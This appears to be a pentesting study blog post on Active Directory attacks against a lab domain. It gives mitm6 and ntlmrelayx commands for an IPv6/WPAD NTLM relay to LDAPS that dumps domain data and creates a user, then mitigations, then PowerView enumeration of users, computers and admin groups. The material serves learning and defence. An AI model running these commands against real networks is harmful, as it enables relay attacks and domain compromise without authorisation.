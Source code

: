 ```yaml
---
title: Active Directory Attacks (Part 2)
date: 2023-10-20
categories: [Learning, Active Directory]
tags: [Active Directory, AD]
author: barabulkit
---
```


## IPv6 Attack

```shell
mitm6 -d arasaka.local
ntlmrelayx.py -6 -t ldaps://192.168.1.100 -wh fakewpad.arasaka.local -l lootme
```

This will gaher info about domain users and computers and store it on lottme folder, also will create user when it catches administator user logged into computer

### Mitigation

 - disable IPv6
 - if WPAD is not used disable it via Group Policy by disabling WinHttpAutoProxySvc
 - Relaying to LDAP and LDAPS mitigated by enabling both LDAP signing and channel binding
 - making Administrative usrs as `Account is sensitive and cannot be delegated`

## Post Compromise Enumeration Tools

### [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 ```powershell
 Get-NetDomain
 ```
 ![GetNetDomain](/assets/img/acd/powerview/getnetdomain.png)

  ```powershell
 Get-NetDomainController
 ```
 ![GetNetDomainController](/assets/img/acd/powerview/getnetdomaincontroller.png)

 ```powershell
 Get-NetUser | select cn, logoncount
 ```
 ![ListUsers](/assets/img/acd/powerview/userlist.png)

```powershell
Get-NetComputer | select name
```
 ![ListComputers](/assets/img/acd/powerview/computerslist.png)

 ```powershell 
 Get-NetGroup | where -Property name -Like "*админ*" | select name
 ```
  ![AdminGroups](/assets/img/acd/powerview/getadmingroups.png)


```powershell
Get-NetGroupMember "администраторы домена" | select MemberName
```
  ![DomainAdmins](/assets/img/acd/powerview/getdomainadmins.png)